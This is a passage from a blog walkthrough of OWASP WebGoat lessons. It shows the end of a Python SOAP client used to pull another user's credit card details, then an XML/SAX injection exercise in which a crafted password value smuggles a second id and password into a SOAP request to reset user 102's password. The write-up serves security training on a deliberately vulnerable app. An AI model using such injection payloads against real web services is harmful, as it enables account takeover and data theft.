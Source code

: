 	try:
		send_soap(sys.argv[1], sys.argv[2])
	except:
		print ("Please enter valid input | arg1: method, arg2: user_id")

main()
{% endhighlight %}

Let's try to use it to get the credit card info for Joe Snow:

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_22/credit-card-tamper.jpg">

Nice! Our client is a little more adaptable now.

# Web Service SAX Injection
Instructions:

- Some web interfaces make use of Web Services in the background. If the frontend relies on the web service for all input validation, it may be possible to corrupt the XML that the web interface sends.
- In this exercise, try to change the password for a user other than 101. 

<img src="{{ site.baseurl }}/images/2017-02-02-webgoat_part_22/soap-sax-injection.jpg">

So we are given the request that is formed when we input a user_id to the web interface. This is basically an XML-injection attack. We can perform this by overwriting the read values of variables in the request. So if our request looks like this when we enter the new password ```newpass1```:

```
<?xml version='1.0' encoding='UTF-8'?>
<wsns0:Envelope
  xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
  xmlns:xsd='http://www.w3.org/2001/XMLSchema'
  xmlns:wsns0='http://schemas.xmlsoap.org/soap/envelope/'
  xmlns:wsns1='http://lessons.webgoat.owasp.org'>
  <wsns0:Body>
    <wsns1:changePassword>
      <id xsi:type='xsd:int'>101</id>
      <password xsi:type='xsd:string'>newpass1</password>
    </wsns1:changePassword>
  </wsns0:Body>
</wsns0:Envelope>
```

Now let's enter a maliciously crafted input for password:

```
newpass1</password><id xsi:type='xsd:int'>102</id><password xsi:type='xsd:string'>newpass2
```

Now the request looks like this:

```
<?xml version='1.0' encoding='UTF-8'?>
<wsns0:Envelope
  xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
  xmlns:xsd='http://www.w3.org/2001/XMLSchema'
  xmlns:wsns0='http://schemas.xmlsoap.org/soap/envelope/'
  xmlns:wsns1='http://lessons.webgoat.owasp.org'>
  <wsns0:Body>
    <wsns1:changePassword>
      <id xsi:type='xsd:int'>101</id>
      <password xsi:type='xsd:string'>newpass1</password>
      <id xsi:type='xsd:int'>102</id>
      <password xsi:type='xsd:string'>newpass2</password>
    </wsns1:changePassword>
  </wsns0:Body>
</wsns0:Envelope>
```